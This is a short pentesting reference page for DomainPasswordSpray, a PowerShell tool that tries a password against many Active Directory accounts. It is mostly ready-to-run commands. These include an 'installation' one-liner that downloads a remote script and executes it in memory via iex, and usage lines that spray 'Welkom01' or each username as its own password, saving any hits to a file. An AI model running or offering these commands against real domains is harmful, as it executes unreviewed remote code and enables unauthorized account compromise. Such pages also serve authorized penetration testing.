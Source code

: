 ```yaml
---
title : "DomainPasswordSpray"
# pre : ' '
description : "Powershell script to perform password spray attack in Active Directory."
date : 2021-02-02T10:07:59+01:00
# hidden : true
# draft : true
weight : 80
# tags : ['']
---
```


---

Powershell script to perform password spray attack in Active Directory.

{{%resources fa_icon_class="far fa-file" pattern=".*(ps1)"/%}}

## Installation

```plain
iex (new-object Net.WebClient).DownloadString("https://raw.githubusercontent.com/crypt0rr/DomainPasswordSpray/master/DomainPasswordSpray.ps1")
```

## Usage

```plain
Invoke-DomainPasswordSpray -Password Welkom01 -OutFile c:\temp\spray-results.txt
```

It can also be interesting to use the `-UsernameAsPassword` flag.

```plain
Invoke-DomainPasswordSpray -UsernameAsPassword -OutFile c:\temp\spray-results.txt
```

## URL List

- [Github.com - DomainPasswordSpray](https://github.com/dafthack/DomainPasswordSpray)
